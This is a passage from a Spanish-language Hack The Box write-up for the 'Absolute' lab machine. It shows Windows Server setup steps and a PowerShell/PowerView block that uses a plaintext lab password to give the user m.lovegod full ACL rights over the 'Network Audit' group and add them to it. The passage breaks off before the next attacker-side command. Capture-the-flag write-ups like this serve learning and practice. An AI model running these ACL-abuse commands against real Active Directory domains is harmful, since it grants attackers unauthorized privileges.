 ![](/assets/img/HTB/Absolute/bloodhound_comando.png)

#### Emulación Windows Server 2019

Una vez estamos en la máquina Windows debemos realizar varios cambios:

- Tenemos que instalar Windows Server 2019 con el rol de AD
- Tendremos que añadir la IP de la máquina victima a la configuración de red en el apartado DNS
- Editar el archivo "C:\Windows\System32\Drivers\etc\hosts" y añadir el dominio absolute.htb
- Sincronizar la hora del Windows Server con la del dominio dc.absolute.htb

```sh
Import-Module .\PowerView.ps1 
$SecPassword = ConvertTo-SecureString "AbsoluteLDAP2022!" -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential("Absolute.htb\m.lovegod", $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Network Audit" -Rights all -DomainController dc.absolute.htb -PrincipalIdentity "m.lovegod"
Add-ADPrincipalGroupMembership -Identity m.lovegod -MemberOf "Network Audit" -Credential $Cred -server dc.absolute.htb
```

![](/assets/img/HTB/Absolute/power.png)

Una vez hemos ejecutado estos comandos en la powershell tendremos que ir rápidamente a nuestra máquina atacante para ejecutar el siguiente comando
